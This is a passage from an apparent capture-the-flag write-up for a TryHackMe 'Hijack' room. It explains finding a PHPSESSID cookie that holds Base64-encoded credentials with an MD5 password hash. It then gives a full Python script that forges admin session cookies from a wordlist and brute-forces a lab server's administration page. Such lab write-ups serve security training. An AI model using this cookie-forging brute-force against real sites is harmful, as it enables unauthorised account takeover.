 ![Hijack](/assets/2025/THM/Hijack/5.png)

Considering the brute-force protection mentioned earlier, I decided not to try password spraying. Instead, I attempted directory enumeration, but this didn’t reveal anything useful.

So, I fired up Burp Suite to dig deeper. While intercepting requests, I noticed something unusual in the PHPSESSID cookie—it looked like it was encoded in Base64.

![Hijack](/assets/2025/THM/Hijack/7.png)

After decoding it, I realized it contained the credentials from the user account I had created earlier. Even more interesting, the password was stored as an MD5 hash. I grabbed a list of passwords and used Python script to brute-force it.

```bash
import hashlib
import base64
import requests

target_url = "http://10.10.95.234/administration.php"

with open("passwords_list.txt", 'r') as password_file:
    password_candidates = [pwd.strip() for pwd in password_file.readlines()]

initial_response = requests.get(target_url)
print(initial_response)

for password_guess in password_candidates:
    md5_result = hashlib.md5(password_guess.encode('utf-8')).hexdigest().encode('utf-8')
    combined_value = b'admin:' + md5_result
    session_value = base64.b64encode(combined_value).decode()

    print(session_value)

    request_headers = {
        "Cookie": f"PHPSESSID={session_value}"
    }

    response = requests.get(target_url, headers=request_headers)

    if len(response.text) > 51:
        print("[+] Valid password found!")
        print("Password:", password_guess)
        print("Session Cookie:", session_value)
        break
```